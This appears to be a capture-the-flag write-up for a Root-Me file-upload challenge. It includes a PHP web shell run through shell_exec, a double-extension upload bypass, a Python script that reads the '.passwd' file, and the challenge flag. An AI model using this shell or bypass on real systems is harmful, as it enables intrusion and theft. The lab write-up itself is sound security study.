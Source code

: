 ```yaml
---
title: File upload - Double extensions
author: thanguyen165
date: 2023-01-02 07:00:00 +0700
categories: [Practice, rootme]
tags: [Web Exploitation, rootme]
---
```


* Points: 20
* Link: [https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

## Statement

> Your goal is to hack this photo galery by uploading PHP code.
>
> Retrieve the validation password in the file .passwd at the root of the application.

## Solution

Just write a normal php code

```php
<?php
$command = $_GET['command'];
$output = shell_exec($command);
echo "<p> $output <p>";
?>
```
{: file="exploitit.php" }

Then change its name to ```exploitit.php.jpg``` and upload to server.

Then call it by

```py
import requests

URL =  'http://challenge01.root-me.org/web-serveur/ch20/galerie/upload/694193751d4a423a2179aadef22b5be4/exploitit.php.jpg?command={}'

command = "cd ../../../; cat .passwd"

r = requests.get(URL.format(command))
print(r.text)
```

Note that ```.passwd``` is at challenge's root, not system's root, so ```cat /.passwd``` wont work!

The flag is
```
Gg9LRz-hWSxqqUKd77-_q-6G8
```
